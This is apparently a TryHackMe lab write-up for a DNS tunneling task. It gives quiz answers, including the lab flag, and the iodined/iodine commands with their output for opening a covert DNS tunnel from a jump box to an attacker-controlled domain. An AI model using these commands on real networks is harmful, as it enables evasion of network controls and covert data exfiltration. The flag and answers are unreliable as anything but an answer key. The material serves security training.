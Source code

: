 ## Task 10  DNS Tunneling
+ When the iodine connection establishes to Attacker, run the ifconfig command. How many interfaces are? (including the loopback interface)`4`
+ What is the network interface name created by iodined?`dns0`
+  Use the DNS tunneling to prove your access to the webserver, http://192.168.0.100/test.php . What is the flag?`THM{DN5-Tunn311n9-1s-c00l}`


+ Open tunnel from attacker
```bash
thm@attacker:~$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com
Opened dns0
Setting IP of dns0 to 10.1.1.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain att.tunnel.com

thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com 
Opened dns0
Opened IPv4 UDP socket
Sending DNS queries for att.tunnel.com to 127.0.0.11
Autodetecting DNS query type (use -T to override).
Using DNS type NULL queries
Version ok, both using protocol v 0x00000502. You are user #0
Setting IP of dns0 to 10.1.1.2
Setting MTU of dns0 to 1130
Server tunnel IP is 10.1.1.1
Testing raw UDP data to the server (skip with -r)
Server is at 172.20.0.200, trying raw login: OK
Sending raw traffic directly to 172.20.0.200
Connection setup complete, transmitting data.
Detaching from terminal...

```